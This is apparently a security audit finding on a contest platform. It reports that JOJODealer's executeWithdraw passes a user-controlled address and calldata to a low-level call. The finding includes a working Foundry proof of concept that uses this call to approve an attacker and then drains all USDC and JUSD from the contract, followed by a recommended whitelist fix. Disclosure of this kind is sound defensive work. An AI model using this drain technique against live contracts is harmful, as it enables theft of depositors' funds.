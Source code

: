 Upbeat Rusty Opossum

high

# An attacker can steal all USDC and JUSD from JOJODealer contract

## Summary
The JOJODealer contract inherits from JOJOExternal, JOJOOperation, and JOJOView, thereby gaining access to all functions defined in these contracts. Our focus is specifically on the JOJOExternal contract, which exposes the Funding library and allows users to interact with functions such as deposit(), requestWithdraw(), and executeWithdraw(). In these primary functions, we simply invoke the corresponding functions from the Funding library without introducing any modifications.

The issue arises in the executeWithdraw() function, where we trust user-supplied parameters. This trust will enable a malicious actor to steal all funds within the JOJODealer contract.

## Vulnerability Detail

As JOJODealer serves as a hub for various traders executing diverse actions, the contract accumulates substantial balances in both USDC and JUSD. The critical concern lies in the executeWithdraw() function, which calls Funding.executeWithdraw(). In both functions, there is a lack of validation for various inputs. This deficiency creates an opportunity for a malicious actor to craft a transaction with malicious parameters, draining the contract, and the contract will accept it without proper verification.

Here is a POC example below to illustrate this issue and demonstrate how it can manifest:

Add this test in DealerFundTest.sol and run it with 
```shell
forge test --match-test testExecuteWithdrawCraftedToStealTokens -vvvvv
```
```solidity
    function testExecuteWithdrawCraftedToStealTokens() public {
            
            vm.startPrank(traders[0]);
            jojoDealer.deposit(1_000_000e6, 1_000_000e6, traders[0]); // Normal trader[0] making a deposit withou any issue

            vm.stopPrank();

            vm.startPrank(traders[1]);
            jojoDealer.deposit(100_000e6, 100_000e6, traders[1]); // Normal trader[1] making a deposit withou any issue
            jojoDealer.deposit(100_000e6, 100_000e6, traders[1]); // Normal trader[1] making a deposit withou any issue
            jojoDealer.deposit(100_000e6, 100_000e6, traders[1]); // Normal trader[1] making a deposit withou any issue
            vm.stopPrank();

            vm.startPrank(traders[2]);
            jojoDealer.deposit(100_000e6, 100_000e6, traders[2]); // Normal trader[2] making a deposit withou any issue
            jojoDealer.deposit(100_000e6, 100_000e6, traders[2]); // Normal trader[2] making a deposit withou any issue
            vm.stopPrank();

            vm.startPrank(traders[0]);
            jojoDealer.requestWithdraw(traders[0], 500_000e6, 200_000e6); // Normal trder[0] requesting withdraw till now all the system is working fine
            vm.stopPrank();

            address hacker = vm.addr(10000000000000000);
        
            vm.startPrank(hacker);   
        

            jojoDealer.executeWithdraw(hacker, address(jusd), false, 
                abi.encodeWithSignature("approve(address,uint256)", address(hacker), type(uint256).max)
            ); //  we can call this function even though we didnt deposit with any address and param the contract doesnt check

            jojoDealer.executeWithdraw(hacker, address(usdc), false, 
                abi.encodeWithSignature("approve(address,uint256)", address(hacker), type(uint256).max)
            ); //  we can call this function even though we didnt deposit with any address and param the contract doesnt check


            jusd.transferFrom(address(jojoDealer), hacker, jusd.balanceOf(address(jojoDealer))); //after approval we can withdraw all jusd balance of jojoDealer
            usdc.transferFrom(address(jojoDealer), hacker, usdc.balanceOf(address(jojoDealer))); //after approval we can withdraw all usdc balance of jojoDealer


            jusd.balanceOf(address(jojoDealer)); //This will be 0 since the hacker holds now all the tokens 
            usdc.balanceOf(address(jojoDealer)); //This will be 0 since the hacker holds now all the tokens 
            
        } 
```

To elaborate on the provided POC, in the first part, we simulate a real environment by connecting with various traders' accounts for some deposits. However, upon connecting as a hacker account, it becomes apparent that the supplied parameters are not accurate. The executeWithdraw() function invoked by the hacker ultimately translates to (bool success,) = to.call(param) check this [lines](https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/libraries/Funding.sol#L173-L175) in Funding.sol, both to and param are specified by the user.

The malicious executeWithdraw() proceeds to call the approve() function in both JUSD and USDC with maxUint256, designating the hacker as the spender and the owner will be jojoDealer contract . Subsequently, the attacker can exploit this approval to transfer all tokens to their own address.

## Impact
All users fund that were originally deposited will be drained. The exact same issue happened to a project called SocketDotTech see this [link](https://twitter.com/CharlesWangP/status/1747656219047723243).

## Code Snippet

https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/JOJOExternal.sol#L38-L40

https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/libraries/Funding.sol#L84-L102

https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/libraries/Funding.sol#L122-L185

## Tool used

Manual Review

## Recommendation

I strongly recommend adopting the same design approach as the FlashLoanLiquidate contract. Specifically, ensure that only contracts whitelisted in whiteListContract can be deemed trustworthy, and do not extend trust to any arbitrary address.